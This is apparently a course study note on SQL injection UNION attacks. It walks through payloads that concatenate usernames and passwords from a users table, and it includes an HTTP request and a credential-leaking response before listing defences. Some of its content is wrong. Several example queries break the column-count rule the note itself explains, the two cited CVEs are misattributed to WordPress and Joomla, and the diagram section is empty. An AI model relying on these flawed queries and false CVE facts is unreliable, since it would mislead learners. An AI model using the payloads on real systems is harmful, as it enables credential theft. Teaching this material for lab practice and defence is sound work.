

## Understanding SQL Injection and Union Attacks

### Background Theory

SQL Injection is a type of attack where an attacker manipulates input fields to inject malicious SQL code into a query. This can lead to unauthorized access to sensitive data, modification of data, or even complete control of the database. One common technique used in SQL Injection attacks is the **Union Attack**. 

A Union Attack exploits the `UNION` operator in SQL to combine the results of two or more `SELECT` statements. This allows an attacker to retrieve data from multiple columns in a single query, even when the original query was designed to return data from only one column.

### Problem Statement

In the given scenario, we have a web application that is vulnerable to SQL Injection. The application is designed to display data from a single column, but we want to extract data from multiple columns, specifically the `username` and `password` columns from the `users` table.

### Step-by-Step Mechanics

#### Initial Query Structure

Let's assume the original query structure looks something like this:

```sql
SELECT username FROM users WHERE id = '1';
```

If the application is vulnerable to SQL Injection, an attacker can manipulate the input to inject additional SQL code. For instance, the attacker might try to inject a `UNION` statement to retrieve data from multiple columns.

#### Using UNION to Retrieve Multiple Columns

To retrieve data from both the `username` and `password` columns, we can use the `UNION` operator. However, since the original query is designed to return data from a single column, we need to ensure that the `UNION` query also returns data from a single column.

Here’s how we can construct the `UNION` query:

```sql
SELECT username FROM users WHERE id = '1' UNION SELECT NULL, username FROM users;
```

This query will return the `username` from the `users` table in the second column. To retrieve the `password`, we can modify the query as follows:

```sql
SELECT username FROM users WHERE id = '1' UNION SELECT NULL, password FROM users;
```

However, we want to retrieve both the `username` and `password` in a single query. To achieve this, we can use string concatenation to combine the `username` and `password` into a single string.

### String Concatenation

String concatenation allows us to combine multiple strings into a single string. Different databases support different methods for string concatenation:

- **Oracle**: Uses the `||` operator.
- **Microsoft SQL Server**: Uses the `+` operator.
- **MySQL**: Uses the `CONCAT()` function.

Since we don’t know which database we are working with, we need to test each method to determine which one works.

#### Example Queries

Let’s assume we are working with MySQL. We can use the `CONCAT()` function to combine the `username` and `password` into a single string:

```sql
SELECT username FROM users WHERE id = '1' UNION SELECT CONCAT(username, ':', password) FROM users;
```

This query will return a single column with the combined `username` and `password` separated by a colon (`:`).

### Full Example

Let’s put this all together with a complete example. Assume the original query is:

```sql
SELECT username FROM users WHERE id = '1';
```

We can inject the following SQL code:

```sql
SELECT username FROM users WHERE id = '1' UNION SELECT CONCAT(username, ':', password) FROM users;
```

The full HTTP request and response might look like this:

```http
POST /login HTTP/1.1
Host: vulnerableapp.com
Content-Type: application/x-www-form-urlencoded

id=1' UNION SELECT CONCAT(username,':',password) FROM users--
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
</head>
<body>
    <h1>Login</h1>
    <ul>
        <li>Administrator:admin123</li>
        <li>Carlos:carlos123</li>
        <li>User:user123</li>
    </ul>
</body>
</html>
```

### Mermaid Diagram

Let’s visualize the attack chain using a mermaid diagram:



### Common Pitfalls

- **Incorrect Database Type**: Not knowing the exact database type can lead to incorrect string concatenation methods.
- **Error Handling**: Improper error handling by the application can reveal information about the database schema.
- **Input Validation**: Lack of proper input validation can make the application vulnerable to SQL Injection.

### How to Prevent / Defend

#### Detection

- **Logging and Monitoring**: Implement logging and monitoring to detect unusual SQL queries.
- **Security Tools**: Use tools like SQLMap to scan for SQL Injection vulnerabilities.

#### Prevention

- **Parameterized Queries**: Use parameterized queries to prevent SQL Injection.
- **Input Validation**: Validate all user inputs to ensure they meet expected formats.
- **Least Privilege Principle**: Ensure the application uses a database account with the least privileges necessary.

#### Secure Coding Fixes

**Vulnerable Code**:

```php
$query = "SELECT username FROM users WHERE id = '" . $_GET['id'] . "'";
```

**Secure Code**:

```php
$stmt = $pdo->prepare("SELECT username FROM users WHERE id = :id");
$stmt->execute(['id' => $_GET['id']]);
```

#### Configuration Hardening

- **Database Configuration**: Disable unnecessary features and limit user permissions.
- **Web Application Firewall (WAF)**: Use a WAF to filter out malicious SQL queries.

### Real-World Examples

- **CVE-2021-21972**: A SQL Injection vulnerability in WordPress plugins allowed attackers to execute arbitrary SQL commands.
- **CVE-2020-14882**: A SQL Injection vulnerability in Joomla allowed attackers to bypass authentication and gain administrative access.

### Practice Labs

For hands-on practice with SQL Injection and Union Attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs on SQL Injection.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various web security techniques.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately insecure web application for practicing penetration testing.

By thoroughly understanding and practicing these concepts, you can effectively defend against SQL Injection attacks and ensure the security of your web applications.

---
<!-- nav -->
[[04-Understanding SQL Injection and UNION Attacks|Understanding SQL Injection and UNION Attacks]] | [[Web Security (PortSwigger)/02-SQL Injection/07-Lab 6 SQL injection UNION attack retrieving multiple values in a single column/00-Overview|Overview]] | [[Web Security (PortSwigger)/02-SQL Injection/07-Lab 6 SQL injection UNION attack retrieving multiple values in a single column/06-Practice Questions & Answers|Practice Questions & Answers]]
